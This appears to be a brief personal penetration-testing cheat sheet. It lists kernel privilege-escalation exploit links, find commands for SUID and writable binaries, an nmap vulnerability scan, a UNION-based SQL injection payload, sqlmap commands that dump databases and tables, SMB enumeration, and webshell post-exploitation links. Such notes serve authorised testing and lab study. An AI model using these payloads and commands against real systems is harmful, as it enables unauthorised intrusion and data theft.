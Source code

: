 # Sec notes



### Privilege escalation exploits:

* Kernel **< 4.4.0-116** : https://www.exploit-db.com/exploits/44298
* Kernel **< 4.13.9** (Ubuntu 16.04 - Fedora 27): https://www.exploit-db.com/exploits/45010

### Find exploitable bins

- `find / -perm -u=s -type f 2>/dev/null | grep -v /proc`
- `find / -perm -o+w -type f 2>/dev/null | grep -v /proc`



### Nmap useful commands:

* Scan host deep : `nmap -Pn  -sS -sV --script=default,vuln -p- -T5 <ip>`

### Wordpress

- TODO

### SQL Injection

- Example concatenate other table where injection is possible : 
  - `<injection_param> UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = '<tablename>'`
- **SQLMAP** 
  - Dump databases: 
    - `sqlmap -u http://example.com/users/<injection_param> --dbs --match`
  - Dump tables:
    -  `sqlmap -u http://example.com/users/<injection_param> -D <db_name> --tables --match`

### SMB

- Enumerate SMB users
  - `enum4linux -a <ip>`

------



### Misc links:

* From webshell to full tty :  https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
* Cheatsheet post exploit linux : https://guif.re/linuxeop
